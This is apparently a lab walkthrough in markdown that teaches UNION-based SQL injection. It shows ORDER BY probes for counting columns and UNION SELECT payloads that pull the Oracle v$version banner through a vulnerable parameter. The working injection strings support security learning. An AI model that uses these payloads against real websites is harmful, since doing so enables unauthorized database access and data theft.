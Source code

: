 # 🧪 Lab 3: SQL Injection - Discovering Columns and DB Version using UNION SELECT

## 🎯 Objective

This lab uses **UNION-based SQL Injection**. Our goal is to:
- Discover the **number of columns** returned by the query
- Use `UNION SELECT` to retrieve **database version info**
- Successfully **display the database banner/version** on the webpage

---

## 🧠 What Is UNION-Based SQL Injection?

**UNION SELECT** is a powerful SQL clause that lets us **combine results from multiple SELECT queries** into one.

This works **only if**:
- The number of columns in both SELECT statements is **the same**
- The data types are **compatible**

---

## 🧪 Normal Backend Query

```sql
SELECT * FROM users WHERE username = 'xyz';
```

This would return only one user's info.

But if we inject:
`' UNION SELECT banner, null FROM v$version--`

The query becomes:

`SELECT * FROM users WHERE username = '' UNION SELECT banner, null FROM v$version--';`

✅ Now it combines normal results with banner/version info from v$version.

## 🚨 Problem: We Don't Know the Number of Columns
We need to find how many columns the original query returns before we can use UNION SELECT.

### 🔎 Step 1: Find Number of Columns Using ORDER BY

Try injecting this:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
Keep increasing the number until it throws an error.
That means the previous number is the correct column count.

### 🧪 Step 2: Use NULLs to Match Column Count

If the query has 2 columns, this works:
`' UNION SELECT NULL, NULL--`

Then you can replace one `NULL` with real data like:

`' UNION SELECT banner, NULL FROM v$version--`

### 🛠 Alternate Case with Only One Table

If the application only uses one visible table, use this trick:
`' UNION SELECT 'Hello', 'Minipan'--`

Or use:
`' UNION SELECT NULL, banner FROM v$version--`

## 🧪 Final Payload to Solve the Lab

We want to print the DB version, so:
`' UNION SELECT banner, NULL FROM v$version--`

Or if only 1 column:
`' UNION SELECT banner FROM v$version--`

Inject the payload into a vulnerable parameter like `?category=` or a search field using Burp Suite repeater if needed.

## 🧠 SQL Logic Breakdown

| SQL Component    | Role                                                |
| ---------------- | --------------------------------------------------- |
| `'`              | Closes original query string                        |
| `UNION SELECT`   | Combines original query with attacker-defined query |
| `banner, NULL`   | Fetches DB banner and fills other column with null  |
| `FROM v$version` | Grabs version info from Oracle-like DB              |
| `--`             | Comments out rest of the original SQL query         |


## ✅ Lab Solved!

Once the correct number of columns is matched and the payload is injected, the DB version will be displayed — solving the lab.




